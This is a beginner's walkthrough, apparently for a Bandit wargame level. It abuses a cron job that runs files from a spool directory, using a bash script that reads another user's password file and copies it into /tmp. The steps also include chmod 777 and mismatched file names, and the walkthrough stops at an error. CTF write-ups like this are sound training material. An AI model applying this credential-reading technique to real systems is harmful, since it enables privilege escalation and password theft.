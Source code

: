 ```
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
  
This is a MASSIVE jump in these challenges. And now we will write our first Shell-Script. But what type of script do we need to do? And how will it work? Let's break it down and make it make sense to us all!  
  
So, what we are actually going to do, is write out our own bash script that is based upon the one mentioned above. However, we will need to update it to where it is working for bandit24!  
  
We will make a new folder and call it what ever you want. And then move into the directory, and then use nano in order to open a text editor and we will get started working on our bash script;
```
$ cd /tmp  
  
$ mkdir cryptoh4ck3r  
  
$ sudo nano myscriptname.sh  
  
```
Okay, so the script we are going to be making will be a simple one. All we are going to do, is tell the program to read the contents inside of /etc/bandit_pass/bandit24 and then save that to a directory. 
  
```
***Shell-Script To Execute***  
  
#!/bin/bash  
  
cat /etc/bandit_pass/bandit24 > /tmp/cryptoh4ck3r/password.txt
```
Now that we have such an easy script we can use, let's adjust some permissions and create another text file like so;  
```
**FIRST: Let's grant read/write/execute permissions on our file;**  
$ chmod 777 myscriptname.sh  
  
**NEXT: We need to create our "password.txt" file to write too;**  
$ touch password.txt  
  
**Guess what. We need to grant permission for our password file too!**  
$ chmod 777 password.txt  
  
** Now, we need to copy our script over to the /var/spool/bandit24 location & execute it;  
$ cp myscript.sh /var/spool/bandit24
  
** We should be getting an error now; **  
cp: cannot create regular file '/var/spool/bandit24/myscript.sh': Operation not permitted  
  
** We can CD into /var/spool/bandit24 and do an ls to see what is going on;  
  
$ cd /var/spool/bandit24  
  
$ ls  
foo  
```
